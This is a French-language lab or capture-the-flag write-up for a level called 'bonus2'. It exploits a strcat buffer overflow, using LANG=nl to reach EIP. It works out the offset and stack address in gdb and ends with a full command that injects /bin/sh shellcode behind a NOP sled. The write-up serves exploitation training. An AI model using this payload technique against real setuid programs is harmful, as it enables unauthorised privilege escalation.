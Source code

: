 bonus2:
Ici, deux fonctions, main et greetuser. On ne voit pas de shell admin donc il va falloir run son propre shellcode.

On remarque que deux arguments sont demandés. Ils sont strncpy dans un buffer, 40 pour le premier, 32 pour le deuxième, dans un buffer de 72 donc pas d'overflow possible ici. Par contre, plus loin ce même buffer est strcat a un autre buffer qui fait seulement 64. La faille se situe ici.

Si on essaie de remplir au max notre buffer de 72, on voit qu'on n'arrive pas à override EIP.

```
gdb bonus2
r $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2AAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? () // aucun match ici
```

On peut cependant changer la variable d'environnement LANG (export LANG) pour avoir une salutation plus longue ("Goedemiddag! " vs "Hello " c'est 14 au lieu de 7). 

```
(gdb) r $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? () // = 23eme position
```

Effectivement, donc si LANG= nl, offset est a 23

Il reste juste à injecter notre shellcode avec un nopsled, et faire pointer EIP quelque part après l'addresse de notre buffer[72].

Pour trouver l'adresse du buffer on met un breakpoint juste après strncpy, on run avec plein de NOP et on remonte $esp jusqu'à voir plein de 90:

```
disass main
[...]
0x08048577 <+78>:    call   0x80483c0 <strncpy@plt>
   0x0804857c <+83>:    mov    0xc(%ebp),%eax
   0x0804857f <+86>:    add    $0x8,%eax
   0x08048582 <+89>:    mov    (%eax),%eax
   0x08048584 <+91>:    movl   $0x20,0x8(%esp)
   0x0804858c <+99>:    mov    %eax,0x4(%esp)
   0x08048590 <+103>:   lea    0x50(%esp),%eax
   0x08048594 <+107>:   add    $0x28,%eax
   0x08048597 <+110>:   mov    %eax,(%esp)
   0x0804859a <+113>:   call   0x80483c0 <strncpy@plt>
   =>0x0804859f <+118>:   movl   $0x8048738,(%esp)
[...]
b *0x0804859f 
r $(python -c 'print "\x90" * 100) $(python -c 'print "\x90" * 100)
x/120x $esp
0xbffff640:     0xbffff6b8      0xbffff8f5      0x00000020      0xb7fff918
0xbffff650:     0x00000000      0x00000000      0x00000000      0xb7fd0ff4
0xbffff660:     0xbffff6ae      0xbffff6af      0x00000001      0xb7ec3c49
0xbffff670:     0xbffff6af      0xbffff6ae      0x00000000      0xb7ff3fec
0xbffff680:     0xbffff734      0x00000000      0x00000000      0xb7e5ec73
=> 0xbffff690:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff6a0:     0x90909090      0x90909090      0x90909090      0x90909090
```

0xbffff690 + 16 = 0xbffff6a0
on peut essayer de faire pointer EIP sur \xa0\xf6\xff\xbf

Notre shellcode fait 28 caractères, et on veut une nopesled la plus grande possible donc on va le séparer en deux pour avoir 23 caractères dans la 2ème string (afin d'atteindre EIP).


`./bonus2 $(python -c 'print "\x90" * 35 + "\x31\xc0\x50\x68\x2f"') $(python -c 'print "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xaa\xf6\xff\xbf"')`

Ca marche dans gdb mais pas en vrai parce qu'il y a des décalages d'adresse, on essaie en augmentant et en baissant et au final ça marche si on utilise 0xbffff680 and below (marche avec 62 par exemple)

La commande finale est
`./bonus2 $(python -c 'print "\x90" * 35 + "\x31\xc0\x50\x68\x2f"') $(python -c 'print "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x80\xf6\xff\xbf"')`
